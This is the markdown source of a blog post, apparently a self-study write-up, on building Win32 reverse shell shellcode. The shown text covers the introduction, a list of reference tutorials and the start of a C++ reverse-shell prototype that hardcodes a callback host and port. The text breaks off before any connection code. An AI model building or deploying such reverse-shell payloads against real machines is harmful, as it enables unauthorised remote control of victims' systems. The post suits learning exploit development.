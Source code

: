 ```yaml
---
layout: post
title: Win32 Reverse Shell Shellcode 
date: 2019-10-19
classes: wide
header:
  teaser: /assets/images/avatar.jpg
tags:
  - Shellcode
  - Windows
  - C++ 
  - Assembly
  - Reverse Shell 
  - Socket Programming
---
```


## Introduction
After creating some basic shellcode where we popped calc.exe and figured out at least one method to dynamically find the address of DLLs and their exported functions, it was time to make something a bit more involved, so I went through and created a Reverse Shell PoC payload. 

## Recommended Reading
I used/copied a lot of techniques from the following resources:

+ [Marcos Valle's Reverse Shell Shellcode](https://marcosvalle.github.io/re/exploit/2018/10/21/windows-manual-shellcode-part3.html)
+ [sh3llc0d3r's Reverse Shell Shellcode](http://sh3llc0d3r.com/windows-reverse-shell-shellcode-i/)
+ [NytroRST's Introduction to Windows Shellcode Development](https://securitycafe.ro/2016/02/15/introduction-to-windows-shellcode-development-part-3/)

I combined a lot of the different strategies discussed in the blogposts. The former two use hardcoded addresses discovered with Arwin, while we're going to try and dynamically locate our function addresses. We will also use a technique I found in this [ExploitDB](https://www.exploit-db.com/exploits/40334#) entry authored by Roziul Hasan Khan Shifat to store addresses before calling them. 

Make sure you read this material or you will be lost!

## Getting Started
I'm not going to rehash much of what we have done previously since we've covered it numerous times. I will instead focus on the new aspects, especially the socket programming aspects. 

### C++ Prototype 
Let's establish a reverse-shell via a C++ program first so we know roughly what we need to accomplish. I used the MSDN documentation, Ma~Far$'s [example](https://code.sololearn.com/c9QMueL0jHiy/#cpp), and [this Medium article by Bank Security](https://medium.com/@Bank_Security/undetectable-c-c-reverse-shells-fab4c0ec4f15) as references. Here is my completed C++ prototype:
```c
#include <Winsock2.h>
#include <Windows.h>
#include <iostream>


int main () 
{

std::string rem_host = "192.168.1.222";
int rem_port = 4444;

WSADATA wsaData;

// Call WSAStartup()
```